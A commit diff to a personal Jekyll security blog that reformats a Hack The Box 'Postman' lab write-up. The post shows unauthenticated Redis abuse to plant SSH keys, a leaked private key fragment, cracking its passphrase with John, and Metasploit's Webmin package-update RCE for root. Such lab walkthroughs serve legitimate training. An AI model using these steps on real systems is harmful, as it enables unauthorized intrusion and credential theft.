

Before and after one commit to ricobandy/ricobandy.github.io, a Jekyll site: the page built from _posts/2020-03-13-Postman-HTB.md, in a window 1280 px wide and 1400 px high, scrolled down 7399 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
updated postman

````diff
--- a/_config.yml
+++ b/_config.yml
@@ -108,7 +108,7 @@ analytics:
 author:
   name             : "Charles Quaye"
   avatar           : "/assets/images/avatar.png"
-  bio              : "CISSP | PECB ISO 27001 LI | eJPT | PenTest+"
+  bio              : "CISSP | eJPT | PenTest+"
   location         : "West Coast Africa"
   email            :
   links:
@@ -294,6 +294,6 @@ defaults:
       layout: single
       author_profile: true
       read_time: true
-      comments: # true
+      comments: true
       share: true
       related: true
--- a/_posts/2020-03-13-Postman-HTB.md
+++ b/_posts/2020-03-13-Postman-HTB.md
@@ -1,31 +1,32 @@
 ---
 layout: single
-title: HTB - Postman
+title: Postman - Hack The Box
+excerpt: "Postman was an easy straight forward box. It had realistic vulnerabilities which had CVEs about them. I had to write my ssh public keys into a redis user keys file and then connect to the server to obtain another private ssh keys which further leads to obtaining access to a Webmin application, vulnerable to a remote code execution to gain root access"
 date: 2020-03-13
 classes: wide
 header:
-  teaser: /assets/images/hackthebox/postman/postman-logo.jpg
+  teaser: /assets/images/hackthebox/postman/postman-logo.png
+  teaser_home_page: true
+  icon: /assets/images/hackthebox/hackthebox.png
 categories:
-  - redis
-  - webmin
-  - pentesting
-  - ssh keys
+  - hackthebox
 tags:
   - redis
   - linux
   - CVE
   - webmin
+  - rce
 ---
 
 
 
 ## Summary
 
-Smummary goes here
+Postman was an easy straight forward box. It had realistic vulnerabilities which had CVEs about them. I had to write my ssh public keys into a redis user keys file and then connect to the server to obtain another private ssh keys which further leads to obtaining access to a Webmin application, vulnerable to a remote code execution to gain root access.
 
 ## Box Details
 
-![] (/assets/images/hackthebox/postman/postman-logo.jpg)
+![] (/assets/images/hackthebox/postman/postman-logo.png)
 
 ## Recon
 
@@ -115,33 +116,7 @@ I don't usually enumerate SSH ports unless I have credentials to test. I will le
 
 Enumerating the web page showed a landing page with a statement about the site being under construction. Further tests with `nikto` and directory bruteforcing using `dirsearch` did not give any interesting results.
 
-'''
-- Nikto v2.1.6
----------------------------------------------------------------------------
-+ Target IP:          10.10.10.160
-+ Target Hostname:    10.10.10.160
-+ Target Port:        80
-+ Start Time:         2019-11-02 22:36:53 (GMT0)
----------------------------------------------------------------------------
-+ Server: Apache/2.4.29 (Ubuntu)
-+ The anti-clickjacking X-Frame-Options header is not present.
-+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
-+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
-+ No CGI Directories found (use '-C all' to force check all possible dirs)
-+ IP address found in the 'location' header. The IP is "127.0.1.1".
-+ OSVDB-630: The web server may reveal its internal or real IP in the Location header via a request to /images over HTTP/1.0. The value is "127.0.1.1".
-+ Server may leak inodes via ETags, header found with file /, inode: f04, size: 590f549ce0d74, mtime: gzip
-+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
-+ Allowed HTTP Methods: GET, POST, OPTIONS, HEAD
-+ OSVDB-3268: /css/: Directory indexing found.
-+ OSVDB-3092: /css/: This might be interesting...
-+ OSVDB-3268: /images/: Directory indexing found.
-+ OSVDB-3233: /icons/README: Apache default file found.
-+ 7865 requests: 0 error(s) and 12 item(s) reported on remote host
-+ End Time:           2019-11-02 23:06:48 (GMT0) (1795 seconds)
----------------------------------------------------------------------------
-+ 1 host(s) tested
-
+```
 $ sudo python3 /opt/dirsearch/dirsearch.py -u 10.10.10.160 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -e php,html -f --plain-text-report postman_brute.txt
 [sudo] password for cyb3r:
 
@@ -167,13 +142,13 @@ Target: 10.10.10.160
 [11:43:44] 403 -  301B  - /server-status/
 
 Task Completed
-'''
+```
 
 ### TCP Port 6379
 
 From the nmap printout, I could see that redis is running on this port. Redis is an open source (BSD licensed), in-memory data structure store, used as a database, cache and message broker. By default Redis binds to all the interfaces and has no authentication at all. The version of redis running on the server is 4.0.9. I can connect to verify if authentication is reuqired or not using telnet:
 
-'''
+```
 $ telnet 10.10.10.160 6379
 Trying 10.10.10.160...
 Connected to 10.10.10.160.
@@ -184,7 +159,7 @@ Hey no AUTH required!
 quit
 +OK
 Connection closed by foreign host
-'''
+```
 
 This proves that there isn't any authentication required. We can thus leaverage on this to get a remote code execution and get direct access to the server. To do this, we can generate SSH key and append the public key to the server and login using the private keys. More information can be found [here](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html).
 
@@ -200,22 +175,22 @@ From the nmap scan results, I can see the version of Webmin on the server is `1.
 
 Having identified that the service is running unauthenticated and thus I will try to gain access by creating SSH keys and append the public keys to the user's authorized key file and then login with the private key. To do this, I need to find the location of the home directory of the service user account as well as the account name:
 
-'''
-# redis-cli -h 10.10.10.160 -p 6379
+```
+$ redis-cli -h 10.10.10.160 -p 6379
 10.10.10.160:6379> config get dir
 1) "dir"
 2) "/var/lib/redis/.ssh"
 10.10.10.160:6379> config get dir
 1) "dir"
 2) "/var/lib/redis/.ssh"
-'''
+```
 
 From this printout, I can deduce that the user name is `redis` and the home directory is `/var/lib/redis` and can therefore save the SSH keys within the `.ssh` directory. There is a publicly available script to automate this by supplying the right directory and user name. Script can be found [here](https://github.com/Avinash-acid/Redis-Server-Exploit).
 
 Editing the script to provide the correct redis user home directory, I executed it to obtain a shell as user redis:
 
-'''
-# python redis.py 10.10.10.160 redis
+```
+$ python redis.py 10.10.10.160 redis
 	*******************************************************************
 	* [+] [Exploit] Exploiting misconfigured REDIS SERVER*
 	* [+] AVINASH KUMAR THAPA aka "-Acid"
@@ -251,37 +226,26 @@ OK
 OK
 OK
 	You'll get shell in sometime..Thanks for your patience
-Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-58-generic x86_64)
-
- * Documentation:  https://help.ubuntu.com
- * Management:     https://landscape.canonical.com
- * Support:        https://ubuntu.com/advantage
-
-
- * Canonical Livepatch is available for installation.
-   - Reduce system reboots and improve kernel security. Activate at:
-     https://ubuntu.com/livepatch
-Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
 
 Last login: Tue Dec  3 13:24:55 2019 from 10.10.15.253
 redis@Postman:~$ pwd
 /var/lib/redis
 redis@Postman:~$
-'''
+```
 
 ### redis to Matt
 
 After gaining access to the server and searching for the user.txt file, I noticed it within user Matt's home directory and my current access couldn't read the file:
 
-'''
+```
 redis@Postman:/home/Matt$ cat user.txt
 cat: user.txt: Permission denied
 redis@Postman:/home/Matt$
-'''
+```
 
 To further enumerate the system, I run the LinEnum.sh script to try to find any juicy stuffs to enable increase privileges on the system. I found a backup of a SSH private key, owned by Matt but readable by every user. I tried connecting to the server as Matt using this private key but it required a passphrase.
 
-'''
+```
 [-] SSH keys/host information found in the following locations:
 -rwxr-xr-x 1 Matt Matt 1743 Aug 26 00:11 /opt/id_rsa.bak
 
@@ -317,17 +281,16 @@ VcNyZH8OHYqES4g2UF62KpttqSwLiiF4utHq+/h5CQwsF+JRg88bnxh2z2BD6i5W
 X+hK5HPpp6QnjZ8A5ERuUEGaZBEUvGJtPGHjZyLpkytMhTjaOrRNYw==
 -----END RSA PRIVATE KEY-----
 
-# ssh -i matt_private.key Matt@10.10.10.160
+$ ssh -i matt_private.key Matt@10.10.10.160
 Enter passphrase for key 'matt_private.key':
 Enter passphrase for key 'matt_private.key':
-'''
+```
 
 Only option now is to convert file to a hash using ssh2john and then use JohnTheRipper to crack the resulting hash. I was able to successfully crack the hash and retrieve the passphrase of `computer2008`
 
-'''
-# /opt/JohnTheRipper/run/ssh2john.py matt_private.key > matt_hashes.txt
-
-# john --wordlist=/usr/share/wordlists/rockyou.txt matt_hashes.txt
+```
+$ /opt/JohnTheRipper/run/ssh2john.py matt_private.key > matt_hashes.txt
+$ john --wordlist=/usr/share/wordlists/rockyou.txt matt_hashes.txt
 Using default input encoding: UTF-8
 Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
 Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
@@ -339,12 +302,12 @@ Press 'q' or Ctrl-C to abort, almost any other key for status
 computer2008     (matt_private.key)
 1g 0:00:00:20 DONE (2019-12-03 13:57) 0.04819g/s 691166p/s 691166c/s 691166C/sa6_123..*7¡Vamos!
 Session completed
-'''
+```
 
 I tried connection to the server using the SSH port as Matt but this failed as connect was closed whenever I tried connecting. Further checks revealed that user Matt is denied access through SSH on the server:
 
-'''
-# ssh -i matt_private.key Matt@10.10.10.160
+```
+$ ssh -i matt_private.key Matt@10.10.10.160
 Enter passphrase for key 'matt_private.key':
 Connection closed by 10.10.10.160 port 22
 
@@ -362,19 +325,17 @@ DenyUsers Matt
 
 ...snip...
 redis@Postman:/etc/ssh$
-
-'''
+```
 
 There's a chance the passphrase for the ssh private key is the same password used for the system. I tried changing user from redis user to Matt and it worked successfully and was able to grab the user.txt
 
-'''
+```
 redis@Postman:~$ su - Matt
 Password:
 Matt@Postman:~$ cat user.txt
 517ad0ec...........
 Matt@Postman:~$
-
-'''
+```
 
 ## Privilege Escalation
 
@@ -382,11 +343,11 @@ Matt@Postman:~$
 
 Having access as Matt now, I run further linux enumeration script `LinEnum.sh` but nothing really popped out except noticing that the process for Webmin was running as user root. Thus based on my initial enumeration of the TCP port 10000 we could leverage this and gain access as root. As the Webmin vulnerability required authentication, it's possible Matt's access could be used on the Webmin application(think credential reuse). I tried using Matt's access and I successfully logged in. Therefore we can use this to gain root access using authenticated remote code execution.
 
-![] (/assets/images/hackthebox/postman/tcp-10000-auth-login.jpg)
+![] (/assets/images/hackthebox/postman/tcp-10000-auth-login.png)
 
 Using searchspoilt, I found a module available in metasploit to exploit this Webmin vulnerability and used the module to gain access to the system as root:
 
-'''
+```
 msf5 > use exploit/linux/http/webmin_packageup_rce
 msf5 exploit(linux/http/webmin_packageup_rce) > set PASSWORD computer2008
 PASSWORD => computer2008
@@ -414,5 +375,4 @@ root@Postman:/usr/share/webmin/package-updates/# cat /root/root.txt
 cat /root/root.txt
 a257741..............
 root@Postman:/usr/share/webmin/package-updates/#
-
-'''
+```
````
Also changed, not shown: assets/images/hackthebox/hackthebox.png (added), assets/images/hackthebox/postman/postman-logo.png (renamed from assets/images/hackthebox/postman/postman-logo.jpg), assets/images/hackthebox/postman/tcp-10000-auth-login.png (renamed from assets/images/hackthebox/postman/tcp-10000-auth-login.jpg), assets/images/hackthebox/postman/tcp-80-screenshot.png (renamed from assets/images/hackthebox/postman/tcp-80-screenshot.jpg).
